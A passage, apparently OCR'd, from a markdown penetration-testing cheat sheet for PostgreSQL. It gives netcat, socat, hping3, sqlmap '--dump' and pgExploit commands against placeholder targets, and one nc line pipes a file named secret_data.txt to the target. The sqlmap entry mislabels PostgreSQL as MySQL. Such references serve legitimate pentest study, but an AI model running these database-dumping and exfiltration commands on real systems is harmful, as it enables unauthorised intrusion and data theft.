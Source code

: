     ```bash
    nc <target_ip> 5432 < secret_data.txt
    ```

#### \[\[SoCat Cheat Sheet]]

*   **SoCat TCP Connect:** Simple tests to verify port service is running and responding.

    ```bash
    socat - TCP:<target_ip>:5432
    ```

#### \[\[HPing3 Cheat Sheet]]

*   **Send Packet:** Send TCP packet to the service. Use `-2` to send UDP packet.

    ```bash
    hping3 <target_ip> -p 5432
    ```

#### \[\[SQLNinja]]

#### \[\[SQLMap Cheat Sheet]]

*   **Run SQLMap:** Exploiting SQL Injection vulnerabilities in web applications connected to MySQL.

    ```bash
    sqlmap -u "http://<target_ip>/vulnerable_page.php?id=1" --dbms=postgresql --dump
    ```

#### \[\[pgExploit]]

*   **Run pgExploit:** Exploit PostgreSQL vulnerabilities, including privilege escalation and data exfiltration.

    ```bash
    python pgExploit.py --host <target_ip> --port 5432 --user postgres --pass <password>
    ```

### Other Techniques

#### \[\[pgAdmin]]

* A web-based GUI tool for managing PostgreSQL databases.
* **Connect to PostgreSQL Server:**
  1. Open pgAdmin.
  2. Right-click on "Servers" and select "Create" -> "Server".
  3. Enter server details and connect.

## Penetration Testing Techniques

### External Reconnaissance

#### Port Scanning
